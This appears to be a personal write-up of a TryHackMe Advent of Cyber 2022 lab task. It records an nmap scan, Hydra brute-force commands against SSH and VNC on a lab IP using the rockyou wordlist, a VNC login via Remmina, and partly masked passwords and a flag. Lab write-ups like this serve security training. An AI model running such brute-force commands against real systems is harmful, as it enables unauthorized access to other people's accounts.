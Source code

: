 -----------------------------
	TryHackMe!
Advant of Cyber 4 2022
export $IP=10.10.45.218
   Date - 5/12/2022
-----------------------------

-------------------
# Full Forms -->
-------------------

SSH = Secure Shell
RDP = Remote Desktop Protocol
VNC = Virtual Network Computer

-------------------------------------------------------
# Scanning Phase (Result is in the nmap directory) --> 
-------------------------------------------------------
## NMAP -->
	nmap -vv -sSV 10.10.45.218 -oN nmap/initial

-----------------------------------
# Password Brute Force Atteck -->
-----------------------------------
## Hydra -->
	SSH -->
		hydra -l alexander -P /usr/share/wordlists/rockyou.txt ssh://10.10.45.218
	VNC -->
		hydra -s 5900 -P /usr/share/wordlists/rockyou.txt -t 16 vnc://10.10.45.218

port 5900 is default for vnc.

------------------------------------------------
## process of stablishing the vnc Connect -->
------------------------------------------------
After Determining the password for vnc i installed a opensource and free application called `Remmina` and then connected through the ip and the password.

### syntax to install the app :--
	`sudo apt install remmina -y`

----------------
# PASSWORDS -->
----------------
## SSH:-->
	s****a

## VNC:-->
	1******r

----------------------------
# Questions & Answers -->
----------------------------

## 1. Use Hydra to find the VNC password of the target with IP address MACHINE_IP. What is the password? -->
----------------------------------------------------------------------------------------------------------------------
--> 1******r

-------------------
## 2. Flag -->
-------------------
-->	THM{I*************EN}

